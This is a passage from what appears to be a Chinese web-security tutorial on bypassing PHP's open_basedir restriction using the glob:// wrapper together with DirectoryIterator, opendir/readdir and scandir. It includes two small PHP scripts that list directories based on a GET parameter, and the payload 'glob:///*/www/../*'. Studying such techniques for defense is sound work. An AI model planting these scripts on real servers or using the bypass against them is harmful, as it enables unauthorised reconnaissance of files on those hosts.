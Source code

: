 需要和其他函数配合,单独的glob是无法绕过的。  
并且局限性在于它们都只能列出根目录下和open\_basedir指定的目录下的文件，不能列出除前面的目录以外的目录中的文件，且不能读取文件内容。

### 利用 DirectoryIterator+glob://

`DirectoryIterator` 类提供了一个简单的界面来查看文件系统目录的内容。  
脚本如下:

```php
<?php
$c = $_GET['c'];
$a = new DirectoryIterator($c);
foreach($a as $f){
    echo($f->__toString().'<br>');
}
?>
```

[![](https://shs3.b.qianxin.com/attack_forum/2021/08/attach-151ffebb76d78ad62bad8cb05b3bb3bc6c0dfb15.png)](https://shs3.b.qianxin.com/attack_forum/2021/08/attach-151ffebb76d78ad62bad8cb05b3bb3bc6c0dfb15.png)

### 利用 opendir()+readdir()+glob://

`opendir`作用为打开目录句柄  
`readdir`作用为从目录句柄中读取目录

脚本如下

```php
<?php
$a = $_GET['c'];
if ( $b = opendir($a) ) {
    while ( ($file = readdir($b)) !== false ) {
        echo $file."<br>";
    }
    closedir($b);
}
?>
```

只能列目录，php7可以用如下方法读非根目录文件,`glob:///*/www/../*` 可列举 `/var`

[![](https://shs3.b.qianxin.com/attack_forum/2021/08/attach-fac84e27c3820ea5ecc1b60b4eff07e198cbf20e.png)](https://shs3.b.qianxin.com/attack_forum/2021/08/attach-fac84e27c3820ea5ecc1b60b4eff07e198cbf20e.png)

### 利用 scandir()+glob://

`scandir()`函数可以列出指定路径中的文件和目录  
[![](https://shs3.b.qianxin.com/attack_forum/2021/08/attach-2b60358ef17f699052ebf9d755ea1d75dc99d803.png)](https://shs3.b.qianxin.com/attack_forum/2021/08/attach-2b60358ef17f699052ebf9d755ea1d75dc99d803.png)

这种方法也只能列出根目录和open\_basedir允许目录下的文件。
